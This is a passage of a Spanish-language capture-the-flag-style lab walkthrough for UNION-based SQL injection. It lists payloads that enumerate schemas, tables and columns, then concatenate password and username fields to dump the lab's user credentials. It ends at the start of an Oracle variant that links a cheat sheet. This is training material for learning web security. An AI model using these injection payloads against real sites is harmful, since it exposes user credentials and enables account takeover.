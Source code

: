 Aqui nos pide que saquemos el usuario y contraseña de la base de datos de esta pagina, por lo que haremos lo siguiente en la URL...

```mysql
' union select NULL,NULL-- -
```

Con esto sabemos que no es nada de `Oracle` ni nada parecido...

```mysql
' union select NULL,schema_name from information_schema.schemata-- -
```

Veremos que nos aparece una llamada `public` por lo que haremos lo siguiente...

```mysql
' union select NULL,table_name from information_schema.tables where table_schema='public'-- -
```

Y nos aparecera lo siguiente...

```
users_veujmf
```

Por lo que elegimos esa misma...

```mysql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users_veujmf'-- -
```

Y nos aparecera lo siguiente...

```
|email|
|password_noopnn|
|username_fwnbqa|
```

En este caso vamos hacer los dos a la vez concatenando comandos para elegir el de `password_noopnn` y el de `username_fwnbqa`...

```mysql
' union select NULL,concat(password_noopnn,':',username_fwnbqa) from users_veujmf-- -
```

Y estaremos viendo entre los usuarios y contraseñas la de `admin`, por lo que nos registramos y ya lo habriamos hecho...

```
|do57nju65zautaj4ps8r:carlos|
|jervglfw9ptwhzpsng8c:administrator|
|53pu6vfp0qtsdig3ccrt:wiener|
```

### Lab: SQL injection attack, listing the database contents on Oracle

URL = https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet

En este caso tenemos que logearnos como `administradores` en esta pagina web...
